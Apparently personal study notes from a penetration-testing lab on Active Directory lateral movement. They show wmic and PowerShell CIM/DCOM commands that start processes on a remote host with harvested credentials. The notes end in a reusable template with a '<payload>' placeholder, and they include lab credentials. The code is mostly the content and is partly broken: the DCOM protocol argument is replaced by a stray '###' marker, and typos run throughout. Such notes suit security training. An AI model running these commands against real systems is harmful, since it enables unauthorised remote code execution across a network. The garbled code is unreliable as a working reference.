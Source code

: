 # Lateral Movement in Active Directory


## Active Directory Lateral Movement Techniques

### WMI and WinRM

Windows Mnagement Instrucmentation, object oriented feature that facilitates task automation

WMI create process: Create method from Win32_Process::comms Remote Procedure Calls over 135 for remote and 19152-65535 for session data

wmic utility, recently deprecated

need credentials of member of the Administrators local group

UAC remote restrictions::does not apply to domain user, so we can go wild

wmic abused for lateral movement via command by specifying target IP after /node: arg and iser after /user: and password after /password:

wmic /node:`<IP>` /user:`<username>` /password:`<password>` process call create "`<process name>`"
cmd would be intresting

wmic /node:192.168.50.73 /user:jen /password:Nexus123! process call create "calc"
tring to create calculator process with jen user on Files04 server

WMI job returns PID of process and a 0 meaning sucess

-> translating into powershell:
$username = 'jen';
$password = 'Nexus123!';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;

we have PSCredential object, we need Common Information Model via New-CimSession

$options = New-CimSessionOption -Protocol ### DCOM
$session = New-Cimsession -ComputerName 192.168.50.73 -Credential $credential -SessionOption $Options 
$command = 'calc';

Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};
and now we run with this

$username = '`<username>`';
$password = '`<passowrd>`';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
$options = New-CimSessionOption -Protocol ### DCOM
$session = New-Cimsession -ComputerName `<targetIP>` -Credential $credential -SessionOption $Options 
$command = '`<payload>`';
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};
